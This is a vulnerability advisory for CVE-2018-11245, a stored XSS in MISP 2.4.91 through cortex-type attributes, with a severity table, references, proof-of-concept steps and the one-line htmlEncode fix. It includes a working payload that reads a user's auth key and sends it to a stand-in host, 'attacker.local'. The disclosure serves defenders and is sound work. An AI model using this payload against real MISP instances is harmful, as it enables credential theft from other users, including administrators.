

# MISP - Malware Information Sharing Platform
## XSS with cortex type attributes

|  |  |
|---|---|
| **Vulnerability** | XSS with cortex type attributes | 
| **Vendor** | CIRCL (Open Source) |
| **Product** | MISP - Malware Information Sharing Platform & Open Standards For Threat Information Sharing - https://www.misp-project.org/ |
| **Vulnerable version** | 2.4.91 |
| **Fixed version** | 2.4.92 |
| **CVE** | CVE-2018-11245 |
| **CVSS Score** | 6.4 Medium |
| **CVSS Vector** | CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N |


## References
* https://github.com/MISP/MISP/commit/5efc07b12f82301a6086fd3433fedd69fe7119d3
* https://www.cvedetails.com/cve/CVE-2018-11245/

## Description
This is very dangerous because every user with permissions to add attributes can attack any other user including administrator exfiltrating for example auth key.  
Attack requires victim to visit crafted event and click on the attribute but is very easy to conduct.  

### PoC
Easiest way to reproduce it:

1. Create an event
2. Add an attribute
```
    Category: External analysis
    Type: cortex
    Distribution: Inherit event
    Value:
    {
      "jsonrpc": "2.0",
      "result": "Faketext<script>alert('XSS');</script>",
      "id": 1
    }
```
3. Click on the value of newly created attribute (Cortex object)

**Result:**  
  

### PoC with stealing auth key

Value of the cortex attribute:
```json
{
  "jsonrpc": "2.0",
  "result": "Faketext<script>$.get('/users/view/me',function(d){pos_start = d.indexOf('<h2>User</h2>');pos_end=d.indexOf(decodeURI('%3Cdiv%20class=%22actions%20debugOff%20sideMenu%22%3E'), pos_start);if(pos_start > pos_end) pos_end = pos_start*99;interested = d.substring(pos_start, pos_end);$.get('http://attacker.local/'+escape(interested));});</script>",
  "id": 1
}
```

Here is a fix:
```
root@misp:/var/www/MISP/app/webroot/js# diff misp.js misp.js.fix
```
```diff
3163c3163
<       cortex_data = JSON.stringify(cortex_data, null, 2);
---
>       cortex_data = htmlEncode(JSON.stringify(cortex_data, null, 2));
```